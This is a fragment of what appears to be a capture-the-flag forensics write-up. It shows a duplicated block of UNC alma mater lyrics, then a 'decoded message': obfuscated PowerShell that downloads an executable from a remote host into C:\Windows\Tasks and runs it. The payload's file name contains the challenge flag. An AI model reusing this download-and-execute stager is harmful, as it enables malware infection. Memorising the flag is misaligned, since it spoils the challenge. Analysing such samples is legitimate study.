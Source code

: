 ```
Ringing clear and True
Singing Carolina's praises
Shouting N.C.U.

Hail to the brightest Star of all
Clear its radiance shine
Carolina priceless gem,
Receive all praises thine.

Neath the oaks thy sons and daughters
Homage pay to thee
Time worn walls give back their echo
Hail to U.N.C.

Though the storms of life assail us
Still our hearts beat true
Naught can break the friendships formed at
Dear old N.C.U.
Hark the sound of Tar Heel voices
Ringing clear and True
Singing Carolina's praises
Shouting N.C.U.

Hail to the brightest Star of all
Clear its radiance shine
Carolina priceless gem,
Receive all praises thine.

Neath the oaks thy sons and daughters
Homage pay to thee
Time worn walls give back their echo
Hail to U.N.C.

Though the storms of life assail us
Still our hearts beat true
Naught can break the friendships formed at
Dear old N.C.U.
```


**Step 4: Uncovering the Decoded Message**

After converting we notice that the first part is quite interesting, 


**Decoded Message**

```
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```
    